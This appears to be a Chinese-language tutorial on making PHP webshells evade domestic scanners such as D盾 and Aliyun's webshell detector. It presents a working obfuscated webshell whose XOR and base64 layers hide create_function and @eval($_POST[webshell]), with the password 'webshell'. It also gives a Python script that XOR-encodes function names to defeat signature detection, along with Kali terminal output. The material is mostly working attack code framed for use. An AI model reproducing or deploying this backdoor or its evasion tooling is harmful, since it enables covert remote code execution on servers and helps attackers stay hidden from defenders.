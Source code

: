 国内常见查杀软件：

1. D 盾防火墙
2. 百度 WEBDIR+
3. 阿里云 Webshell 检测平台

## 1 理论

### 1.1 识别方式

1. 静态（分析已知类型后门的 hash 值或文件特征）
2. 敏感函数（例如 eval）
3. 敏感调用（例如写一个变量 $a=eval 调用 $a() 即可调用 eval）
4. 污点分析（底层代码分析，较难解决，阿里云擅长）

### 1.2 免杀方式

1. 对敏感函数进行编码（不推荐 base64、异或（随机字符建议使用 16 进制），太常见，在 jsp 中建议用 unicode ）
2. 字符串拼接
3. 加解密
4. 反序列化（在 php 中推荐）

### 1.3 Payload

```php
<?php
class LJEF{
    function __destruct(){
        $TPHV='IUBNRVl{h_t|>DS'^"\x2a\x27\x27\x2f\x26\x33\x33\x1d\x1d\x31\x17\x8\x57\x2b\x3d";
        @$TPHV=$TPHV('',$this->INTA);
        return @$TPHV();
    }
}
$ljef=new LJEF();
@$ljef->INTA=base64_decode("IEBldmFsKCRfUE9TVFt3ZWJzaGVsbF0pOw==");
?>
```

>  `$TPHV` 的内容为异或，结果是 `create_function` ，以执行匿名函数 `INTA` ，避免直接执行 `base64_decode` 时被解密
>
>  `INTA` 的 `base64` 编码可以拆分为多个魔术方法后再拼接到一起，达到更好的免杀效果
>
>  在 `LJEF` 类中没有给 `INTA` 赋值，那么可以在调用 `LJEF` 时对 `INTA` 赋值
>
>  密钥为 `webshell`

### 1.4 异或

```php
$TPHV='IUBNRVl{h_t|>DS'^"\x2a\x27\x27\x2f\x26\x33\x33\x1d\x1d\x31\x17\x8\x57\x2b\x3d"
```

> 对异或函数 `IUBNRVl{h_t|>DS` 解密

函数 `IUBNRVl{h_t|>DS`  是对 `create_function` 进行异或加密得到的函数

```
┌──(root㉿kali-31)-[~]
└─# vim create_function.php
```

```php
<?php
$TPHV='create_function'^"\x2a\x27\x27\x2f\x26\x33\x33\x1d\x1d\x31\x17\x8\x57\x2b\x3d";
echo $TPHV
?>
```

```
┌──(root㉿kali-31)-[~]
└─# php create_function.php
IUBNRVl{h_t|>DS
```

> 异或的加密密钥可以是随机的，但要与 `create_function` 字符长度相同
>
> 加密后的值要避免不可见字符，无法解密 

异或脚本

```
┌──(root㉿kali-31)-[~]
└─# vim xor.py
```

```python
#!/usr/bin/python3
import chardet
import base64
import random
import sys
import zlib

def gen_payload(func):
    func_line1 = ''
    func_line2 = ''
    key = random_keys(len(func))
    for i in range(0,len(func)):
        enc = xor(func[i],key[i])
        func_line1 += key[i]
        func_line2 += enc
    payload = '\'{0}\'^"{1}"'.format(func_line1,func_line2)
    return payload
def random_keys(len):
    str = '`~-=!@#$%^&*_/+?<>{}|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
    return ''.join(random.sample(str,len))
def xor(c1,c2):
    return hex(ord(c1)^ord(c2)).replace('0x',r"\x")

func1 = sys.argv[1]
print(gen_payload(func1))
```

> 这个脚本中的加密密钥是随机的

使用脚本对 `eval` 函数进行异或加密

```
┌──(root㉿kali-31)-[~]
└─# python xor.py eval
'>!f_'^"\x5b\x57\x7\x33"
```

> 异或由于太常用，已经很难利用
